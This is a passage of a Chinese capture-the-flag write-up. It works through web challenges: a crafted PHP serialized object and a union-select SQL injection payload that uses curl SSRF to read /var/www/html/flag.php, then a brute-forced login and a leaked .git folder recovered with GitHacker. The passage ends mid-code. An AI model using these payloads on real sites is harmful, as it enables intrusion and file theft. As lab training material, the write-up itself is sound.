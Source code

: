 data里的内容就是我们之前注册用户的序列化数据

报错信息暗示我们需要构造一个序列化对象

```
unserialize(): Error at offset 0 of 1 bytes in <b>/var/www/html/view.php</b> on line 31
```

利用前面泄露的源码构造一个恶意对象

```php
<?php
class UserInfo  {
    public $name = "admin";
    public $age = 233;
    public $blog = "file:///var/www/html/flag.php";
}

$data = new UserInfo();
echo serialize($data);
?>
```

利用getBlogContents调用的curl进行SSRF攻击

四个参数都试了一下，发现是第4个用来读用户数据的

```
payload=?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

在iframe中得到flag

### 参考资料

绕过限制利用curl读取写入文件:

[https://www.anquanke.com/post/id/98896](https://www.anquanke.com/post/id/98896)

## Comment

登进去发现可以发帖，但是要跳转到登陆页

提示用户名密码。。。。。卡了半天

zhangwei

zhangwei***

burp 爆破下

密码：zhangwei666

然后可以发帖了

此时扫目录还发现了``.git``

GitHacker拿到
```
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    break;
case 'comment':
```